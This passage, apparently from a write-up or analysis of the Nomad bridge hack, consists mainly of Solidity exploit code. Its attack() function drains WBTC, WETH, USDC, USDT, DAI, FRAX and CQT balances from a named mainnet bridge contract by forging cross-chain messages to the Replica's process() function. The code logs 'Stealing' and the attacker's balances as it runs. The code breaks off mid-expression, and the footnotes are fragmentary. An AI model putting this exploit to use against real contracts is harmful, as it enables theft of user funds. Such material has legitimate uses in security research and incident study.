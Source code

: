 ```
   address constant ERC20_BRIDGE = 0x88A69B4E698A4B090DF6CF5Bd7B2D47325Ad30A3;
  
   // Nomad domain IDs
   uint32 constant ETHEREUM = 0x657468;   // "eth"
   uint32 constant MOONBEAM = 0x6265616d; // "beam"
 
   // tokens
   address [] public tokens = [
       0x2260FAC5E5542a773Aa44fBCfeDf7C193bc2C599, // WBTC
       0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2, // WETH
       0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48, // USDC
       0xdAC17F958D2ee523a2206206994597C13D831ec7, // USDT
       0x6B175474E89094C44Da98b954EedeAC495271d0F, // DAI
       0x3432B6A60D23Ca0dFCa7761B7ab56459D9C964D0, // FRAX
       0xD417144312DbF50465b1C641d016962017Ef6240  // CQT
   ];
 
   function attack() external {
       for (uint i = 0; i < tokens.length; i++) {
           address token = tokens[i];
           uint256 amount_bridge = ERC20(token).balanceOf(ERC20_BRIDGE);
 
           console.log(
               "[*] Stealing",
               amount_bridge / 10**ERC20(token).decimals(),
               ERC20(token).symbol()
           );
           console.log(
               "    Attacker balance before:",
               ERC20(token).balanceOf(msg.sender)
           );
 
           // Generate the payload with all of the tokens stored on the bridge
           bytes memory payload = genPayload(msg.sender, token, amount_bridge);
 
           bool success = IReplica(REPLICA).process(payload);
           require(success, "Failed to process the payload");
 
           console.log(
               "    Attacker balance after: ",
               IERC20(token).balanceOf(msg.sender) / 10**ERC20(token).decimals()
           );
       }
   }
 
   function genPayload(
       address recipient,
       address token,
       uint256 amount
   ) internal pure returns (bytes memory payload) {
       payload = abi.encodePacked(
           MOONBEAM,                           // Home chain domain
           uint256(uint160(BRIDGE_ROUTER)),    // Sender: bridge
           uint32(0),                          // Dst nonce
           ETHEREUM,                           // Dst chain domain
           uint256(uint160(ERC20_BRIDGE)),     // Recipient (Nomad ERC20 bridge)
           ETHEREUM,                           // Token domain
           uint256(uint160(token)),          // token id (e.g. WBTC)
           uint8(0x3),                         // Type - transfer
           uint256(uint160(recipient)),      // Recipient of the transfer
           uint256(amount),                  // Amount
           uint256(0)                          // Optional: Token details hash
                                               // keccak256(                 
```

[^1]: Skim() :
[^2]: Internal function calls are invisible to the blockchain since they don't create any new transactions or blocks. In this way, they cannot be read by other smart contracts or show up in the blockchain transaction history.